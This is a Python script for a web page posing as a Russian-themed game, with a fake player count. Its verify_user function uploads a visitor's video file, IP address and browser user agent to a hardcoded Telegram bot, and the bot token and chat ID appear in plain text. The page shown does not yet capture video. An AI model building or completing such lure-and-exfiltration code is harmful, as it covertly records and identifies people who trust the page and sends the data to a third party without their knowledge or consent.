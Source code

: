 #!/usr/bin/env python3
import os
import json
import requests
from datetime import datetime
from socket import gethostbyname, gethostname

# Конфигурация приложения
config = {
    'site_name': 'Матрешка — симулятор настоящей России',
    'players_count': '4 083',
    'domain': 'myrussiansim.local',
    'telegram': {
        'bot_token': '7898816931:AAHNPImGpJjs-MNsklAvrU0VRDFkHFte_ig',
        'chat_id': '4798745489'
    }
}

def get_server_urls():
    """Возвращает доступные URL сервера"""
    try:
        local_ip = gethostbyname(gethostname())
    except:
        local_ip = '127.0.0.1'
    
    return {
        'custom_domain': f"http://{config.get('domain', 'localhost')}:5000",
        'local': "http://127.0.0.1:5000",
        'network': f"http://{local_ip}:5000"
    }

def verify_user(video_file, ip, user_agent):
    """Отправка видео в Telegram"""
    try:
        response = requests.post(
            f"https://api.telegram.org/bot{config['telegram']['bot_token']}/sendVideo",
            files={'video': (f'verify_{datetime.now().strftime("%Y%m%d_%H%M%S")}.webm', video_file, 'video/webm')},
            data={
                'chat_id': config['telegram']['chat_id'],
                'caption': f"🔔 Новый игрок!\n🕒 {datetime.now()}\n🌐 IP: {ip}\n📱 {user_agent}"
            },
            timeout=30
        )
        return {"status": "success" if response.ok else "error"}
    except Exception as e:
        return {"status": "error", "message": str(e)}

def generate_html():
    """Генерирует HTML страницу"""
    urls = get_server_urls()
    return f"""
<!DOCTYPE html>
<html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>{config['site_name']}</title>
    <style>
        body {{
            font-family: Arial, sans-serif;
            background: linear-gradient(135deg, #1e3c72 0%, #2a5298 100%);
            margin: 0;
            padding: 0;
            color: white;
            text-align: center;
        }}
        .container {{
            max-width: 800px;
            margin: 0 auto;
            padding: 40px 20px;
        }}
        h1 {{
            font-size: 2.5em;
            margin-bottom: 30px;
            text-shadow: 2px 2px 4px rgba(0,0,0,0.5);
        }}
        .promo-btn {{
            display: inline-block;
            background: #ff4d4d;
            color: white;
            padding: 15px 30px;
            margin: 20px 0;
            border-radius: 5px;
            text-decoration: none;
            font-weight: bold;
            font-size: 1.2em;
            box-shadow: 0 4px 6px rgba(0,0,0,0.1);
        }}
        .players-count {{
            font-size: 1.5em;
            margin: 30px 0;
        }}
        .start-btn {{
            background: #4CAF50;
            color: white;
            border: none;
            padding: 15px 30px;
            font-size: 1.2em;
            border-radius: 5px;
            cursor: pointer;
            margin-top: 20px;
            width: 200px;
            box-shadow: 0 4px 6px rgba(0,0,0,0.1);
        }}
        .tagline {{
            font-style: italic;
            margin-top: 40px;
            font-size: 1.1em;
        }}
    </style>
</head>
<body>
    <div class="container">
        <h1>{config['site_name']}</h1>
        
        <a href="#" class="promo-btn">СМОТРЕТЬ ПРОМО-РОЛИК</a>
        
        <div class="players-count">
            сейчас в игре<br>
            {config['players_count']}
        </div>
        
        <button class="start-btn" onclick="startGame()">Начать игру</button>
        
        <div class="tagline">
            Всегда хотел ощутить атмосферу настоящей России
        </div>
    </div>

    <script>
        function startGame() {{
            // Здесь будет ваша логика начала игры
            alert("Игра начинается!");
        }}
    </script>
</body>
</html>
"""

if __name__ == '__main__':
    print("Сервер готов к работе!")
    print(f"Доступ по адресу: http://localhost:5000")
    print(f"Текущие игроки: {config['players_count']}")
